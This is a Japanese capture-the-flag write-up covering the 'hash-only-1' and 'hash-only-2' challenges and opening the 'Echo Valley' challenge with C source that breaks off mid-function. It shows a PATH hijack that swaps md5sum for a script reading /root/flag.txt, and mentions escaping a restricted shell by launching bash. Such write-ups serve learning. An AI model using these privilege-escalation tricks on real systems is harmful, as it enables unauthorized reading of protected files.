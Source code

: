 # hash-only-1
インスタンスを起動すると接続先のみが渡されます。接続してみるとカレントディレクトリには`flaghasher`というプログラムが存在しており、それを実行してみると、`/root/flag.txt`の内容を`md5sum`でハッシュ化して出力しているようでした。

```
$ ./flaghasher
Computing the MD5 hash of /root/flag.txt.... 

37b576b3ec8179c5714bcd173ce8c1cc  /root/flag.txt
```

また、プログラムがダウンロードできるとのことだったので、ダウンロードして`strings`にかけてみました。

```
$ strings flaghasher | grep md5sum
/bin/bash -c 'md5sum /root/flag.txt'
```

ここには載せていないのですが、この後`ghidra`での解析を行ってみると、どうやら上記文字列は`system()`を通じて実行されているようでした。この時点で、`flaghasher`自体は何の入力も受け付けていないため、`flaghasher`自体を攻撃するのではなく、それが利用するコマンドや環境を攻撃するべきかと考えました。もう少し調査を進めてみると `PATH`の変更が可能であったため、`md5sum`をこちらが用意した悪意のある同名の`md5sum`スクリプトにすりかえ、その中では`cat /root/flag.txt`を実行させれば良いのでは無いかと思いつきます。すり替えるためには`PATH`により優先順位の高いディレクトリを追加し、そのディレクトリの中に自前の`md5sum`を追加すれば良いはずです。

```
$ export PATH=/tmp:$PATH
$ echo 'cat /root/flag.txt' > md5sum
$ mv md5sum /tmp
$ ./flaghasher
```

これでフラグを入手できました。

# hash-only-2
hash-only-1と同じように接続先が渡されます。今後は`rbash`となっており、様々なコマンドやリダイレクトなどが制限された環境になっています。私は解答できませんでしたが、writeupを見る限りどうやら`bash`コマンドが使えたようです。そうすれば制限の無い通常のシェルを利用でき、この状態でhash-only-1と同じことをすればフラグが入手できました。

競技終了後に調べたところ、[Linux Restricted Shell Bypass](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)という資料を発見しました。今回の解法と似たようなことが書いてあります。競技中、`rbash`についてのバイパスを調べることを怠っていたので、とても後悔しました。

最近kurenaif氏のCTF入門講座が個人的に刺さっていたのですが、競技時間中に知らないことを調べないのはお話にならないことをhash-only-2でも痛感しました。

# Echo Valley
ソースとバイナリが配られます。ソースは下記。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
```